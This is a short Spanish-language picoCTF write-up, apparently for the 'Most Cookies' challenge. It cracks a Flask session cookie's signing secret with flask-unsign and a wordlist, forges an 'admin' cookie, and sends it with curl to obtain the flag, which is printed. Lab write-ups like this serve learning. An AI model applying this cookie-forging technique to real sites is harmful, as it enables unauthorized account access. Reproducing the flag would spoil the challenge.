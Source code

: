 # 4 - Most Cookies

## Descripcion:
* Alright, enough of using my own encryption. Flask session cookies should be plenty secure! server.py http://mercury.picoctf.net:35697/
* How secure is a flask cookie?

## Solucion:
* http://mercury.picoctf.net:35697/display
* eyJ2ZXJ5X2F1dGgiOiJibGFuayJ9.aNoHtQ._XfwD6dTcXB4QHRql9S0gTRryNs
* wget http://mercury.picoctf.net:35697/display
* cat cookies.py
* Ejecutar descodificador base64.py
* crear Cookies.txt
* flask-unsign --unsign --cookie "eyJ2ZXJ5X2F1dGgiOiJzbmlja2VyZG9vZGxlIn0.aNoSIA.tL4mgcyUlArI1DzqWqoeZtujQ1w" --wordlist cookies.txt
* 'peanut butter'
* flask-unsign --sign --cookie "{'very_auth': 'admin'}" --secret "peanut butter"
* eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNogEg.wUn5xsnFtt7HrVmdJCZLst_8gCQ
* curl -s http://mercury.picoctf.net:35697/display -H "Cookie: session=eyJ2ZXJ5X2F1dGgiOiJhZG1pbiJ9.aNogEg.wUn5xsnFtt7HrVmdJCZLst_8gCQ" | findstr "pico"
* picoCTF{pwn_4ll_th3_cook1E5_22fe0842}

## Notas:
* primero entramos a la pagina
* vemos que cookies tiene
* descargamos las cokies
* descargamos el archivo de python y lo abrimos
* ejecutamos el descodificador base 64
* creamos el archivo que nos dio el archivo de python 
* creamos un nuevo acceso a la sesion con una nueva clave
* generamos una nueva cookie
* mandamos una peticion que nos muestre la bandera como administrador con esa nueva cookie
* nos da la bandera
* despues de mucho tiempo

## Referencias: